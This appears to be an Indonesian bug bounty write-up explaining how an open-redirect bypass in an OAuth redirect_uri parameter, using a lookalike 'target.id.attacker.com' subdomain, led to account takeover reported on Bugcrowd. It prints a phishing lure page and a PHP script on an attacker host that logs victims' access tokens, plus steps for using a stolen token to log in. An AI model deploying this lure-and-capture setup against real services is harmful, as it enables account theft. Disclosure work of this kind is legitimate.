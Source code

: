 ```yaml
---
layout: post
title: Bypass Open Redirect to Takeover Account via OAuth
categories: [Web Security, Bug bounty write-up]
author: Rafshanzani Suhada
---
```


Mungkin kalian sudah tidak asing lagi dengan metode `Takeover Account (OAuth)` yang memanfaatkan param `redirect_uri`. Diartikel ini akan menjelaskan Bypass Open Redirect yang mengakibatkan akun diambil alih. Untuk penjelasan apa itu Open Redirect dan Akun takeover kalian dapat membacanya diartikel berikut: 

* <https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html>
* <https://www.imperva.com/learn/application-security/account-takeover-ato/>

Pada umumnya bug ini hanya menambahkan / merubah param menjadi `redirect_uri=https://attacker.com`, namun pada kasus ini saya mendapatkan error pada saat menambahkan param tersebut. Lalu saya muncul ide untuk merubahnya menjadi `redirect_uri=https://target.com.attacker.com/`, cukup kaget dan ini ternyata berhasil.

![Terkejut](https://infosec.zerobyte.id/images/shock.gif)

Jika kurang jelas saya akan menjelaskan lebih detail.

**Request** :
```
https://auth.target.id/login?oidc_sp=google&redirect_uri=https://attacker.com/
```

Pada saat melakukan request tersebut terdapat **error**, Lalu saya merubah param `redirect_uri` menjadi `https://target.id.attacker.com/` dan ternyata berhasil mengalihkan url, jadi request berubah seperti berikut:

**Request** :
```
https://auth.target.id/login?oidc_sp=google&redirect_uri=https://target.id.attacker.com/
```

---

# Skenario

### Server (target.id.attacker.com)

Membuat file yang seolah olah target.id memiliki diskon untuk membeli produk

File: POC.html

```html
<!DOCTYPE html>
<html>
<body>

<h1>Discount 80% Plan Business</h1>

<p><a href="https://auth.target.id/login?oidc_sp=google&redirect_uri=https://target.id.attacker.com/">CLAIM NOW!</a></p>

</body>
</html>
```

File: index.php

```php
<?php
function redirect($url)
{
   header('Location: ' . $url);
   die();
}

$token = "$_SERVER[REQUEST_URI]";

$filetoken = fopen("token_param.txt", "a+") or die("Unable to open file!");
fwrite($filetoken, $token .PHP_EOL);
fclose($myfile);

redirect('https://target.id' . $token);
```

### Steps to Reproduce

* Attacker Mengirim url <https://target.id.attacker.com/POC.html> ke victim
* Ketika diklik "CLAIM NOW" oleh victim maka akan dialihkan ke target.id

Setelah proses tersebut selesai attacker melihat isi file `token_param.txt` yang dimana file tersebut tersimpan `ACCESS TOKEN` dan dapat digunakan untuk login victim.

### Bagaimana cara ambil alih akun dengan token tersebut?

Attacker dapat melakukan login hanya menggunakan `ACCESS TOKEN` tersebut. 

```
https://target.id/{TOKEN_PARAM}
```

---

Pada platform bugbounty di Bugcrowd termasuk P2 (Priority 2) atau High.

![Bugcrowd](https://infosec.zerobyte.id/images/OAuth_Bugcrowd_P2.png)

Dalam kasus ini saya melakukan report diplatform Bugcrowd & mendapatkan reward sebesar $400

![Hore](https://infosec.zerobyte.id/images/Prof-reward_1.png)

Mohon maaf jika yang saya jelaskan kurang jelas, karena saya memang tidak begitu pandai membuat tulisan.

"Tetaplah rendah hati dan selalu memiliki keinginkan untuk menjadi sesuatu yang diinginkan."
